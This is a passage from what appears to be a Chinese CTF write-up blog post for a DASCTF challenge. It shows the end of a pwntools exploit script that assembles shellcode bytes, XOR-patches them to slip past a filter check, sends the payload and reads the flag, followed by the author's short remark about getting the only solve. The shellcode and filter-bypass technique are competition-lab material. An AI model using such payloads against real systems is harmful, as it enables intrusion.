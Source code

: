 ```python
        b"\x34\x61", # xor al, 0x61
        # sendfile(STDOUT_FILENO, fd, NULL, 1)
        b"\x0f\x05", # syscall <code 3>
        b"\xeb\xf5", # jmp loop (-9)
    ]
    # patch <code 1, 2, 3> to pass the check
    raw = b"".join(code)
    patched = xor(raw, flat({
        0x34: p32(0x304e3071),
        0x41: p8(0x30),
        0x47: p32(0xf2df5c4c ^ 0x30416130)
        }, length=len(raw), filler=b'\0'))
    info(f'Sending payload: {repr(patched)}')
    sh.send(patched)

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')
    sh.close()
```

> *纯真* 师傅出的题，上来直接开做，很快啊！直接拿下唯一解，就是花了太多时间，
> 错过了 **clock** ，要不然还能得1000分

{% note default fa-flag %}
![flag](/assets/dasxmarek2024/flag.png)
{% endnote %}

